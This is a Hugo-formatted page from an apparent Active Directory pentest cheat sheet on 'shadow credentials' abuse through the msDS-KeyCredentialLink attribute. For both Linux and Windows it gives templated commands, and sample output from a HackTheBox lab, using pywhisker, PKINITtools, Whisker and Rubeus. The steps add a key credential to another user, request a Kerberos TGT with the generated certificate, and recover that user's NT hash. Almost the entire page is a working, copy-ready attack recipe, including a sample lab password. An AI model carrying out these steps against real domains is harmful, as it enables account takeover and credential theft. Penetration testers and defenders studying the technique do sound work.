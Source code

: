 ```yaml
---
title: "AddKeyCredentialLink"
date: 2024-7-31
tags: ["Shadow Credentials", "Pass-The-Cert", "AddkeyCredentialLink", "Active Directory", "Windows", "Whisker", "Pywhisker"]
---
```


### Privesc #1: Shadow credentials

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Pre-check \[optional\]

```console
python3 pywhisker.py -t '<TARGET_USER>' --action list -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC_IP> --use-ldaps
```

```console {class="sample-code"}
$ python3 pywhisker.py --action list -d outdated.htb -u 'btables' -p '5myBPLPDKT3Bfq' --dc-ip 10.10.11.175 -t 'sflowers' --use-ldaps
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Attribute msDS-KeyCredentialLink is either empty or user does not have read permissions on that attribute
```

#### 1. Add shadow credentials

```console
python3 pywhisker.py --action add -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC_IP> -t '<TARGET_USER>' --use-ldaps
```

```console {class="sample-code"}
$ python3 pywhisker.py --action add -d outdated.htb -u 'btables' -p '5myBPLPDKT3Bfq' --dc-ip 10.10.11.175 -t 'sflowers' --use-ldaps
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 3c90e8fb-0405-f373-5424-32d34084ccce
[*] Updating the msDS-KeyCredentialLink attribute of sflowers
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 3p24aKIn.pfx
[*] Must be used with password: qFhAIiIMg5ys4SQYYOst
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

<br>

```console
# Fix module 'OpenSSL.crypto' has no attribute 'PKCS12Type'
pip3 install -I pyopenssl==24.0.0
```

#### 2. Request TGT using the PFX

```console
sudo ntpdate -s <DC> && python3 gettgtpkinit.py -cert-pfx <PFX_FILE> -pfx-pass '<GENERATED_PASSWORD>' '<DOMAIN>/<TARGET_USER>' <TARGET_USER>.ccache -dc-ip <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s 10.10.11.175 && python3 gettgtpkinit.py -cert-pfx 3p24aKIn.pfx -pfx-pass 'qFhAIiIMg5ys4SQYYOst' 'outdated.htb/sflowers' sflowers.ccache -dc-ip 10.10.11.175

2024-09-23 01:48:14,567 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-09-23 01:48:14,578 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-09-23 01:48:38,986 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-09-23 01:48:38,987 minikerberos INFO     a1870bb416f2b965df3df681288f3b272119d86288c67c572675b80ea1bedd94
INFO:minikerberos:a1870bb416f2b965df3df681288f3b272119d86288c67c572675b80ea1bedd94
2024-09-23 01:48:38,990 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

#### 3. Get NT hash

```console
export KRB5CCNAME=<TARGET_USER>.ccache
```

```console
python3 getnthash.py '<DOMAIN>/<TARGET_USER>' -key <AS_REP_ENC_KEY>
```

```console {class="sample-code"}
$ python3 getnthash.py 'outdated.htb/sflowers' -key a1870bb416f2b965df3df681288f3b272119d86288c67c572675b80ea1bedd94
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
1fcdb1f6015dcb318cc77bb2bda14db5
```

<small>*Ref: [pywhisker](https://github.com/ShutdownRepo/pywhisker)*</small>
<br>
<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 0. Pre-check \[optional\]

```console
.\whisker.exe list /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC>
```

```console {class="sample-code"}
PS C:\programdata> .\whisker.exe list /domain:outdated.htb /target:'sflowers' /dc:10.10.11.175
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Listing deviced for sflowers:
[*] No entries!
```

#### 1. Add shadow credentials

```console
.\whisker.exe add /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC> /password:'<PFX_PASSWORD>'
```

```console {class="sample-code"}
PS C:\programdata> .\whisker.exe add /domain:outdated.htb /target:'sflowers' /dc:10.10.11.175 /password:'Test1234'
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 06a332a6-1ef1-4e73-bb9b-f5e5d1f9e963
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate:MIIJuAIBAz ... [SNIP]... TvhwICB9A= /password:"Test1234" /domain:outdated.htb /dc:10.10.11.175 /getcredentials /show
```

#### 2. Request TGT using PFX file and get NTLM hash

```console
.\rubeus.exe asktgt /user:'<TARGET_USER>' /certificate:'<BASE64_PFX>' /password:'<PFX_PASSWORD>' /domain:<DOMAIN> /dc:<DC> /getcredentials /show
```

```console {class="sample-code"}
PS C:\programdata> .\Rubeus.exe asktgt /user:sflowers /certificate:'MIIJuAIBAz ... [SNIP]... TvhwICB9A=' /password:"Test1234" /domain:outdated.htb /dc:10.10.11.175 /getcredentials /show

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 10.10.11.175:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF0jCCBc ...[SNIP]... F0ZWQuaHRi

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  9/22/2024 10:57:36 AM
  EndTime                  :  9/22/2024 8:57:36 PM
  RenewTill                :  9/29/2024 10:57:36 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  vqosgxeFibuRzlIPfnejKQ==
  ASREP (key)              :  1E1FB4543905764478F7F129026B67A6

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```

<small>*Ref: [Whisker.exe](https://github.com/eladshamir/Whisker)*</small>

{{< /tabcontent >}}
